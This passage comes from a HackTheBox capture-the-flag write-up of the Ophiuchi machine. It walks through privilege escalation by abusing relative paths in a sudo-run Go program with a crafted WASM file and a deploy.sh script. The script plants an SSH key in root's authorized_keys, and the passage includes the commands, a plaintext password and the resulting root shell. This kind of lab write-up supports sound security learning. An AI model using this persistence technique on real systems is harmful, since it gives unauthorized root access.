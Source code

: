 Because the Go program isn’t using absolute paths, I can control both and . I’ll write a that returns 1, and a that gives a shell.`main.wasm``deploy.sh``main.wasm``deploy.sh`

#### wasm

I recently looked at WASM for [RopeTwo](https://0xdf.gitlab.io/2021/01/16/htb-ropetwo.html#create-rwx-segment), where my V8 payload used WASM to create a binary space in memory that was executable. That payload was just a silly function that returned 42, and then I overwrite that memory with my shellcode and call it. That didn’t require much WASM knowledge or even understanding, but I did learn about [WasmFidle](https://wasdk.github.io/WasmFiddle/). It allows me to put in some simple C code and generate Wasm.

[![image-20210207134325508](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210207134325508.png)_Click for full size image_](https://0xdf.gitlab.io/img/image-20210207134325508.png)

In fact, the default code (which just returns 42) will solve my issue here. I’ll hit the “Build” button to generate the Wasm (shown on the bottom left). Now I can run it and it will print 42 (bottom right).

I’ll change the name of the function from to , change 42 to 1, and then Build again. If I want to run it, I need to change the call in the JS on the top right, but I don’t need to run it. There are two download buttons. “Wat” is the text version, and “Wasm” is the binary. I’ll take the binary.`main``info`

#### Setup

I’ll copy the new Wasm into :`/dev/shm`

    oxdf@parrot$ sshpass -p whythereisalimit scp program.wasm admin@10.10.10.227:/dev/shm
    

I’ll also create that will create a directory for the root user if it doesn’t exist, and then write my public SSH key into :`deploy.sh``.ssh``authorized_keys`

    #!/bin/bash
    
    echo "[*] Adding public key to /root/.ssh/authorized_keys"
    mkdir -p /root/.ssh
    echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys
    echo "[+] Done."
    

#### SSH Access

Now I’ll run it:

    admin@ophiuchi:/dev/shm$ sudo /usr/bin/go run /opt/wasm-functions/index.go
    Ready to deploy
    [*] Adding public key to /root/.ssh/authorized_keys
    [+] Done.
    

Now I can connect as root:

    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.227
    ...[snip]...
    root@ophiuchi:~#
    

And grab the flag:

    root@ophiuchi:~# cat root.txt
    bdd26a85************************
    

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2021/07/03/htb-ophiuchi.html)